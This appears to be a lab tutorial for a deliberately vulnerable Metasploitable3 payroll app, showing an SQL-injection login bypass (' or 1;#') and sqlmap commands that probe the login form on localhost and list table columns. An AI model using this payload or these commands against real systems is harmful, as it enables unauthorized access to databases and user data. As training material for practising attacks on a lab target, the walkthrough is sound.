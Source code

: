 For this tutorial you will need the following tools<b/>

* Browser (Prefarably Mozilla)
* Burpsuite
* SQLMap

1. Try and login using the following credentials:<b/>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | admin    |
   | PASSWORD  | admin    |  

RESULTS: The webpage will display your username and no content
 
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-1.png "STEP 1")
   
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-1.png "Result 1")
2. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | '        |
   | PASSWORD  | admin    |  

RESULTS: The webpage will be blank
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-2.png "STEP 2")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-2.png "RESULT 2")
   
3. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | ' or 1;#'|
   | PASSWORD  | admin    |  

RESULTS: The web page will return all the user content
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-3.png "STEP 2")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-3.png "RESULT 2")
4. <b>Use SQLMap to extract the database using the following commands:</b>

   ```
   sqlmap -u http://127.0.0.1:7000/payroll_app.php --data="user=admin&password=admin&s=OK" -p user --method POST
   ```

RESULTS: SQLMap will identify whether the web application is vulnerable to SQL Injection
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-4-sqlmap.png "STEP 4")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-4-1.png "RESULT 4")
   
5. <b>Use SQLMap to extract the columns in the table</b>

   ```
   sqlmap -u http://127.0.0.1:7000/payroll_app.php --data="user=admin&password=admin&s=OK" -p user --method POST --columns
   ```

RESULTS: SQLMap will identify whether the web application is vulnerable to SQL Injection
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-5-1.png "STEP 5")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-5-2.png "RESULT 5")   
